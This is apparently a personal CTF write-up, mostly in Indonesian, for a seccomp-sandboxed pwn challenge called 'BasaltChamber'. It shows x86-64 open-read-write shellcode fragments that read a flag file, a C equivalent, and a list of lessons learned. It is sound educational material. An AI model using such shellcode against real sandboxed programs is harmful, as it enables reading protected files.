


# Writeup

### 🛡️ Pwn (Binary Exploitation)

## shellcode with read, write, open

disini gw bakal ngerjain chall `BasaltChamber` dari 0xv01dCTF, dari zip yang diberi kelihatan kalo yang disetujuin itu cuma 

`allow: read, write, open, close, execve`

sekarang gw bakal membaca isi flag dengan manfaatin `read, write, open`

tapi biar lebih pasti apakah ini shellcode atau bukan, saya mengeceknya dengan `strace`

```bash
(base) ┌──(init)(at4m1㉿LAPTOP-V46LO30E)-[~/cy/docs/0xv01dCTF/pwn/BasaltChamber]
└─$ strace ./blackglass_sandbox
...
read(0
```
dan ya disini dia meminta sebuah input untuk di read yang biasanya mengarah ke `shellcode`

gw bakal pakai x64 syscall sebagai acuan



```bash
    lea rdi, [rip+flag]
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall
```
sekarang gw bakal masukin string "flag.example" atau "flag.txt" ke dalam arg pertama dari `open` dan selanjutnya arg kedua dan ketiga di `0` kan jadi ini sama saja dengan `open('flag.example', 0, 0)`

selanjutnya gw bakal masukin `open` ini untuk dipakai syscall lain dengan
```bash
mov rbx, rax
```
oke selanjutnya gw bakal `read` isi flagnya setelah di `open` dengan ini
```bash
    mov rdi, rbx
    lea rsi, [rip+buf]
    mov rdx, 0x100
    xor rax, rax
    syscall
```


```bash
    mov rdi, 1
    lea rsi, [rip+buf]
    mov rdx, rax
    mov rax, 1
    syscall
```
selanjutnya untuk menampilkan output nya, gw bakal gunain `write`

arg pertama diisi dengan 1 untuk `stdout` artinya output akan ditampilkan di terminal, arg kedua diisi sebuah buf sebagai wadahnya, dan arg ketiga write dimana akan menggunakan nilai hasil dari read 

jika disusun menjadi sebuah code, kurang lebih begini

```c
#include <fcntl.h>
#include <unistd.h>

int main() {
    char buf[256];

    int fd = open("flag.example", O_RDONLY, 0);

    int n = read(fd, buf, sizeof(buf));

    write(1, buf, n);

    return 0;
}
```

jika dijalankan akan mendapatkan isi dari `flag.example` atau `flag.txt`




## Lesson Learned

- Mengenal cara kerja shellcode pada Linux x86-64.
- Memahami bahwa syscall menggunakan register untuk mengirim argumen:
  - `rdi` = argumen pertama
  - `rsi` = argumen kedua
  - `rdx` = argumen ketiga
  - `rax` = nomor syscall
- Belajar menggunakan syscall `open`, `read`, dan `write` secara langsung tanpa bantuan library C.
- Mengetahui bahwa nilai return syscall disimpan pada register `rax`.
- Memahami bagaimana file descriptor yang dihasilkan oleh `open()` dapat digunakan kembali pada syscall `read()`.
- Menggunakan `strace` untuk melakukan analisis awal terhadap binary dan mengamati syscall yang dipanggil program.
- Memahami teknik RIP-relative addressing (`lea rdi, [rip+flag]`) yang umum digunakan pada shellcode x86-64 agar alamat data dapat diakses tanpa hardcode address.
- Mengetahui bahwa sandbox tidak selalu harus di-bypass; terkadang cukup memanfaatkan syscall yang memang diizinkan oleh seccomp.
- Memahami alur klasik shellcode:
  `open -> read -> write`
  yang sering muncul pada challenge CTF bertema shellcode.
- Belajar menerjemahkan assembly menjadi kode C untuk mempermudah memahami logika program.